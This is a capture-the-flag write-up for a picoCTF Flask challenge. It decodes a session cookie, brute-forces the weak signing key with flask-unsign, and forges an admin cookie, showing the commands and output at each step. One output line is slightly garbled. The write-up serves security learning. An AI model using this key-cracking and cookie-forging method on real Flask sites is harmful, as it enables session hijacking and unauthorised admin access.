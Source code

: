 # More Cookies

## Information about the CTF
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:44693/

## How to solve it
When we go to the website, an input field is displayed. When trying to enter "snickerdoodle" (placeholder text) and then looking for our cookies, the following appears:

```
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZAMz3A.Ea3ooPcSldiFactHJlmTOGp47jM
```

Which could seem like a JTW token, lets try to see if we can decode it using [jwt.io](https://jwt.io/). Well, we can see the following:

```
{
  "very_auth": "snickerdoodle"
}
```
But the signature is invalid, so it might be a Flask session cookie. 

To decode it, we can use [flask-unsign](https://pypi.org/project/flask-unsign/) which is a tool to decode and unsign Flask session cookies. 

Lets start with creating a virtual environment.

```bash
$ sudo apt-get install python3-venv
$ python -m venv venv
$ source venv/bin/activate
```

Then we can install flask-unsign using pip.

```bash
$ pip3 install flask-unsign
```
Lets now try to decode the cookie.

```bash
$ flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZAMz3A.Ea3ooPcSldiFactHJlmTOGp47jM'
# {'very_auth': 'snickerdoodle'}
```

We can see that the cookie is valid, but we can't use it to login. So lets try to bruteforce the secret key using the known users from another CTF. See `wordlist.txt`.

```bash
$ flask-unsign --unsign --server 'http://mercury.picoctf.net:44693/' --wordlist wordlist.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZANBNQ.re61FuODEiBW2x-9T3KhHAjDuzo
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'butter'
```

And the secret key is `butter`. Now we can use the tool [flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) to generate our own cookie.

First lets install the tool.
```bash
$ git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager
$ python setup.py install
```

Then we can generate our own cookie.

```bash
python3 flask_session_cookie_manager3.py encode -s butter -t "{'very_auth':'admin'}"
# eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZANBtw.2YczjPagyHttZohpNIidWNEM6iw
```

Changing the cookie to our newly created one and then refreshing the page, we can see that we are now logged in as admin and we can see the flag.

